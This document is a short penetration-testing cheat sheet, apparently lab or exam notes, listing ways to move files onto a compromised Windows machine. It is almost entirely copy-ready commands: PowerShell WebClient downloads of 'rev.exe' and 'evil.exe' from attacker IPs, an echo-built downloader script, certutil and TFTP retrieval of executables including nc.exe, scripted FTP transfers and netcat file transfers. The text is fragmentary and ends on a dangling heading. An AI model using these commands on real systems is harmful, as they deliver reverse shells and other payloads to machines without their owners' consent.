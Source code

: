 ```




```
 
**Older Version - tested on 2008 R2 in PowerShell Shell**  
$url = "[http://10.10.14.27/rev.exe](http://10.10.14.27/rev.exe)" ; $output = "C:\tmp\rev.exe" ; $wc = New-Object System.Net.WebClient ; $wc.DownloadFile($url, $output)
 
<-- Write file downloader script through echos  
echo $webclient = New-Object System.Net.WebClient >>wget.ps1  
echo $url = "[http://192.168.119.177/evil.exe](http://192.168.119.177/evil.exe)" >>wget.ps1  
echo $file = "new-exploit.exe" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1
   

## TFTP

Super old, use netcat or ftp  
tftp -i 192.168.119.177 get nc.exe
 
atftpd --daemon --port 69 /tftp
 
## Certutil

certutil.exe -urlcache -f [http://10.0.0.5/40564.exe](http://10.0.0.5/40564.exe) bad.exe
   

## FTP

On kali, make sure pure-ftpd is running  
service pure-ftpd start
 
echo open 192.168.119.177 21> [ftp.txt](http://ftp.txt)  
echo USER offsec >> [ftp.txt](http://ftp.txt)  
echo lab >> [ftp.txt](http://ftp.txt)  
echo put 1 >> [ftp.txt](http://ftp.txt)  
echo quit >> [ftp.txt](http://ftp.txt)
 
ftp -n -v -s:ftp.txt
 
(Use **put** to Send to Download and **get** to Upload)  
(add bin if needed)
 
## NetCat

nc -w 3 192.168.119.177 1234 < DownloadFIle  
nc -l -p 1234 > DownloadFIle
 
(Reverse to upload file)
 
## TFTP
